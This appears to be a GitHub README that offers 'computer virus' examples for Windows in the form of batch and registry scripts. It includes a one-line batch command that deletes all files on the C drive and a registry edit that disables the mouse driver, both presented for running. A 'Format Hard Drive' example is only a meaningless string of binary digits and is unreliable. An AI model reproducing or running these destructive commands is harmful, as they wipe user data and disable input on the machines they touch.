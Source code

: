 # Computer Virus
A Computer virus is a self-replicating program that spreads by inserting copies of itself into other executable code or documents. By doing this, it behaves similarly to a biological virus, which spreads by inserting itself into living cells. While some viruses are harmless or more hoaxes, most are considered malicious.  

### Examples
This examples are based on Windows machines but they still might mess up Mac or Linux so be careful if you are going to run it. 
  
*File format: *.bat* 
    
**Delete all the content of C Drive**
```
@Echo off
Del C:\*.*|y
```

**Disable Mouse**
```
rem ---------------------------------
rem Disable Mouse
set key="HKEY_LOCAL_MACHINE\system\CurrentControlSet\Services\Mouclass"
reg delete %key%
reg add %key% /v Start /t REG_DWORD /d 4
rem ---------------------------------
```

**Format Hard Drive**
```
01001011000111110010010101010101010000011111100000
```

## Resources
- [Why Hackers Write Computer Viruses](http://gizmodo.com/5827405/why-hackers-write-computer-viruses)
- [Hacking With Notepad](http://www.instructables.com/id/Hacking-With-Notepad/)
- [Who are the people behind the online threats?](http://www.bullguard.com/bullguard-security-center/internet-security/internet-threats/hackers-virus-writers-and-internet-criminals.aspx)
